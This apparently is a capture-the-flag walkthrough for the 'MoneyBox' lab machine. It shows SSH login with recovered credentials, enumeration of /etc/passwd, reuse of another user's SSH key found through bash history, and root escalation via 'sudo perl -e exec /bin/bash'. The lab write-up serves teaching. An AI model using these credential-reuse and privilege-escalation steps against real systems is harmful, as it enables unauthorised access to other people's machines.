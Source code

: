 With the username `renu` and the password `987654321`, SSH into the target machine.

```
$ ssh renu@192.168.0.7
```

![[Pasted image 20231120152447.png]]

And we find our first flag in the `user1.txt` file!.

![[Pasted image 20231120152613.png]]

----------------
---------

Now, let us find any way to get to the root user of this machine. First, find out how many users are present in the system.

```
renu@MoneyBox:~$ cat /etc/passwd | grep -iE "sh|bash|zsh"
```

![[Pasted image 20231120154739.png]]

We see that we have more users, `lily` and `root` in the sytem.

Browse to `lily`'s user directory located `/home/lily`

```
renu@MoneyBox:~$ cd /home/lily/
```

![[Pasted image 20231120154918.png]]

Here, we found the 2nd Flag!!!

![[Pasted image 20231120155035.png]]

---
--------------

Looking inside of the `.ssh` folder of `lily`, we can see `authorized_keys` of ssh.

![[Pasted image 20231120155432.png]]

The user `renu` is authorized for the ssh keys. So if we go back to `renu`'s home directory and look at the `bash history` of the commands, we see that, indeed the user had access to `lily`'s SSH ID.

```
grep "ssh" -i .bash_history --color=auto
```

![[Pasted image 20231120161028.png]]

Go to `renu`'s `.ssh` folder, in there we find the rsa id for our SSH login.

![[Pasted image 20231120161205.png]]

Using the command same command of `renu`, SSH into the user `lily`.

```
ssh -i id_rsa lily@127.0.0.1
```

![[Pasted image 20231120161316.png]]

List for the privileges that the user `lily` has.

```
lily@MoneyBox:~$ sudo -l
```

![[Pasted image 20231120161627.png]]

So, this means that, we don't have to use password if we are using `sudo` command if you are using the `perl` tool.

Our intension is to become the root or get access to `root`'s shell. If we can run the `/bin/bash` file with the root access, we become the root.

For that, using `perl`, execute the `/bin/bash` file.

```
lily@MoneyBox:~$ sudo perl -e 'exec "/bin/bash"'
```

![[Pasted image 20231120163255.png]]

Now that we are a root user, finding the flag at root's directory is a cake walk.

![[Pasted image 20231120163449.png]]

------------
